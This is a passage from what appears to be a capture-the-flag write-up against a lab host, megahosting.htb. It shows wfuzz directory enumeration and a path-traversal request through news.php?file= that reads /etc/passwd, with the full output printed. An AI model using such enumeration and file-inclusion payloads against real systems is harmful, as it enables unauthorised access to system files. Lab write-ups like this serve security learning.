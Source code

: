 Let's go one more level with `/files/`.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://megahosting.htb/files/FUZZ
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://megahosting.htb/files/FUZZ
Total requests: 4652

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000010:   403        9 L      28 W     280 Ch      ".hta"
000000011:   403        9 L      28 W     280 Ch      ".htaccess"
000000012:   403        9 L      28 W     280 Ch      ".htpasswd"
000000660:   301        9 L      28 W     326 Ch      "archive"
000003891:   200        150 L    375 W    6507 Ch     "statement"

Total time: 83.58826
Processed Requests: 4652
Filtered Requests: 4647
Requests/sec.: 55.65374
```

### Local File Inclusion

Looking at the presence of `/files/statement` and `/news.php?file=statement`, I think it's reasonable to infer a LFI vulnerability. Let's test it out.

```
# curl -i "http://megahosting.htb/news.php?file=../../../../etc/passwd"
HTTP/1.1 200 OK
Date: Sun, 21 Jun 2020 14:45:24 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1850
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
```